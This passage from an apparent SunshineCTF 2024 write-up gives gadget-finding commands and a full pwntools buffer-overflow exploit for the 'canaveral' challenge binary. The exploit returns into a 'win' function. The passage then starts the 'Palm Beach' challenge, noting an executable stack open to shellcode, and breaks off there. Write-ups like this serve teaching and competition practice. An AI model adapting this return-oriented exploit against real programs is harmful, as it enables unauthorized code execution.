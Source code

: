 We can find the single ret address with
`objdump -d canaveral | grep ret` or
`ROPgadget --binary canaveral | grep ret`

Final exploit:
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

exe = './canaveral'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

offset = 120

io = start()

payload = flat({
    offset: [
        0x40101a, # ret address
        elf.sym['win']
    ]
})

io.sendlineafter(b':', payload)
io.interactive()
```

### i-95/Palm Beach

Get your tan on

Attachments: [palm_beach](https://2024.sunshinectf.games/76dd136bd7d8/palmbeach)

nc 2024.sunshinectf.games 24603

### Solution

Looking at the protections on the binary, we can see that The stack is executable, meaning that injecting shellcode is likely possible.

<img width="586" alt="Screenshot 2024-10-24 at 4 22 16 PM" src="https://github.com/user-attachments/assets/81fbfb72-c09a-46fc-962b-ccf3ca1b7c1e">
